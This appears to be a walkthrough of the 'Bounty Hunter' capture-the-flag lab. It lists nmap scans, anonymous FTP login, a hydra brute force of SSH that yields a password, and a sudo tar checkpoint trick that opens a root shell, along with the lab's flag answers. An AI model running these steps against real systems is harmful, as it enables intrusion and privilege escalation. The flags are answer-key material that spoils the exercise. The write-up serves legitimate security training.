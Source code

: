 # Bounty Hunter 

> You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

<br>

Process:
- 1) port scan the machine 
  - `nmap -T4 <ip>`
- 2) aggressive scan the open ports on the machine 
  - `nmap -T4 -A -p 21,22,80 <ip>`
- 3) check anonymous FTP login
  - `ftp <ip>` -> [anonymous] 
  - found: task.txt written by = **lin**
  - found: locks.txt 
  - can try to brute force service with locks.txt = **ssh**
- 4) try to brute force ssh
  - `hydra -l lin -P locks.txt <ip> ssh`
  - found password = **RedDr4gonSynd1cat3**
- 5) login to ssh:
  - look for user.txt
    - `cat user.txt` = **THM{CR1M3_SyNd1C4T3}**
- 6) escalate privileges:
  - find out what sudo commands lin can run: `sudo -l` -> /bin/tar
  - look at GTFOBins for /bin/tar with sudo:
    - found: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
    - execute to get root shell
  - find root.txt 
    - `cat /root/root.txt` = **THM{80UN7Y_h4cK3r}**



